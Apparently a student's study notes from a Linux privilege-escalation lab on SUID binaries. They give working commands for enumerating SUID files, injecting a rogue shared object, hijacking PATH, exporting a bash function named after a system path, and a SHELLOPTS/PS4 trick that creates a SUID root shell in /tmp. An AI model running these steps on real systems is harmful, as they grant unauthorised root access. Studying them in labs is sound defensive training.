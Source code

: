SUID is related to permission. From what I understand, and I might be wrong(read more about this), SUID permission make it so that the executable is run as root/have root permission. That's why its useful as privilege escalation exploit.

### Known Exploits
Finding all SUID executable:
```shell
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
Check if there is an exploit related to those program(google, exploitdb, github). 
SUID probably known to be exploitable/vulnerable.

### Shared Object Injection
This one is kinda similiar to the cron jobs one, which is putting an exploit to a lower privilege area where it would be read(injected) by a high privilege(root) program. Thus a privilege escalated shell is executed.

This one use suid-so executable.
``` bash 
/usr/local/bin/suid-so
```
Then this one(strace) probably look at the program shared object that it tries to load but failed
```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
----------------Redacted------------
	open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```
noticing that it tries to open a file that the lower privilege have access to, we then create the rogue shared object
```shell
mkdir /home/user/.config
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```
Voila! When we run the executable, the root shell opened
### Environment Variables
`/usr/local/bin/suid-env` apparently inherit the user PATH variable(I don' know where this info comes from).

Looking at the executable readable strings
```bash
strings /usr/local/bin/suid-env
```
We find that it start a service `service apache2 start` withouth using a full path.
Because we can change the PATH variable, we can manipulate it to instead open a rogue `./service` file in our chosen path.
```bash
gcc -o service /home/user/tools/suid/service.c
PATH=.:$PATH /usr/local/bin/suid-env
```
The second line prepend the path to our current directory(where our service code is), then execute the suid-env.

### Abusing Shell Feature
`/usr/local/bin/suid-env2` is similiar to `/usr/local/bin/suid-env`, except that it uses absolute path so we can't use the previous exploit. Instead, we abuse the bash vulnerability that exist in bash version <4.2-048.
Check bash version
```bash
/bin/bash --version
```
Then we create a bash function that is named like a path, so we would run those function instead of the actual service
```bash
function /usr/sbin/service { /bin/bash -p; }  
export -f /usr/sbin/service
```

### Abusing Shell Feature 2
In bash version < 4.4, this exploit can be used
```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
```
It creates a SUIDed bash that's used as a privilege escalation.
